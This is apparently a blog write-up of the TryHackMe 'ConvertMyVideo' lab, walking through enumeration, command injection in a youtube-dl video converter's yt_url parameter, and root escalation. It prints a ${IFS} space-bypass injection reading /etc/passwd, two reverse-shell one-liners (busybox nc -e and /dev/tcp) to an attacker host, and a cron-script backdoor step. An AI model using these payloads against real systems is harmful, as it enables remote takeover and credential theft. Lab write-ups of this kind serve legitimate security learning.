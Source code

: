 ```yaml
---
title: "ConvertMyVideo"
date: 2025-03-29
draft: false
description: TryHackMe's Good Room
Tags:
- TryHackMe
- Linux
- Medium
---
```


## Enumeration

Lets start with the nmap scan.
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-28 18:22 +0545
Nmap scan report for 10.10.34.159 (10.10.34.159)
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.76 seconds
```

Hmmm lets see whats in port 80.
![](Pasted%20image%2020250329005821.png)
Hmm as the name suggest,it converts a video or mp4 to mp3.
Hmmm lets check for any special features that we might need.
![](Pasted%20image%2020250329005836.png)
And interesingly,it asks for video id.
Hmmm.

Ohhh after seeing the souce code,i found out that it was asking for youtube video id.
![](Pasted%20image%2020250329005851.png)

Hmmm so as that code,it asks for video id of youtube and make us able to download the mp3 version.
Lets just check by passing one video from youtube.
![](Pasted%20image%2020250329005910.png)
Lets pass this videos id.
Ohh this is long video,lets use shorter one.
![](Pasted%20image%2020250329005922.png)

Lets see how it works.
![](Pasted%20image%2020250329005933.png)
I don't know why but its taking very long.

And few more things from directory busting.
![](Pasted%20image%2020250329005945.png)
And authentication in `/admin`.
![](Pasted%20image%2020250329005957.png)

But we don't have any username or password.
Hmmm.
And there is `/tmp` which is forbidden.
Hmmm interesting.

I captured the requests in burp.
![](Pasted%20image%2020250329010007.png)

Hmm so `yt_url` parameter is going on that video.
But what can we do here?
SSRF,LFI or just huge rabbithole.

Hmm interesting.
![](Pasted%20image%2020250329010019.png)

Hmmm very very interesting.
According to it,there is downloads folder in `/tmp` and there is mp3 file but there is nothing.
![](Pasted%20image%2020250329010029.png)

Hmmm,I am missing something.
So as far I understand it download the mp3 from passed video and save that in `/tmp/downloads` as mp3 file.

![](Pasted%20image%2020250329010040.png)
Hmm.

I guess we can do ssrf.
![](Pasted%20image%2020250329010059.png)

Hmm interesting.
And I am stuck for few hours.
Okay lets just see the part of writeup.
Hmmm so from the result we have got for now reveals that its using something `youtube-dl`.
Lets search for it.
![](Pasted%20image%2020250329010123.png)

## Exploit

Hmm interesting.
And command injection was also possible cause its running a command of `youtube-dl`,so we can use pipe to inject command too.
![](Pasted%20image%2020250329010133.png)

Okay let's continue to get shell or something.
But again it is not compatible.
We can't run long commands and many more.
(we couldn't use spaces i guess)

After some talk with chatGPT,we came up with this.
```Bash
yt_url=|cat${IFS}/etc/passwd;
```

So here that `${IFS}` worked as a space.

We could now read files easily.
![](Pasted%20image%2020250329010144.png)

Great.Now lets try to get shell or complete this rooms's goal.
We can read index.php.
![](Pasted%20image%2020250329010212.png)
![](Pasted%20image%2020250329010224.png)
We got the flag.txt.

As well as there is `.htaccess`file.
![](Pasted%20image%2020250329010243.png)
![](Pasted%20image%2020250329010332.png)


Now we can read that.
![](Pasted%20image%2020250329010344.png)

Lets crack the password hash.
![](Pasted%20image%2020250329010355.png)

## Foothold

And now we can login.
But I was wondering if we can execute command,Can I get shell from that.
I tried different things but this one worked.
```bash
busybox${IFS}nc${IFS}ip${IFS}9999${IFS}-e${IFS}sh;
```
![](Pasted%20image%2020250329010411.png)

Lets also do it from `/admin`.
Cause we can also execute command by that cause we can see this.
![](Pasted%20image%2020250329010422.png)

So lets login and execute command.
![](Pasted%20image%2020250329010433.png)

## privilege Escalation

Now we have got the shell,lets try to escalate our privileges.
Lets run [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS).
Nothing interesting.
Lets also run [pspy](https://github.com/DominicBreuker/pspy/releases).


And we saw something interesting.
![](Pasted%20image%2020250329010455.png)
Hmm so clean.sh is running as root.
Lets check the permission of that script.
![](Pasted%20image%2020250329010506.png)

So we can edit and escalate to root.
I added this line in clean.sh.
```bash
sh -i >& /dev/tcp/ip/9999 0>&1
```

Now lets wait for some time and see if we got a root shell or not.
![](Pasted%20image%2020250329010518.png)

## Done

And done.
![](Pasted%20image%2020250329010530.png)

Again learned lots of things.I hope you are doing awesome.
Take Care!

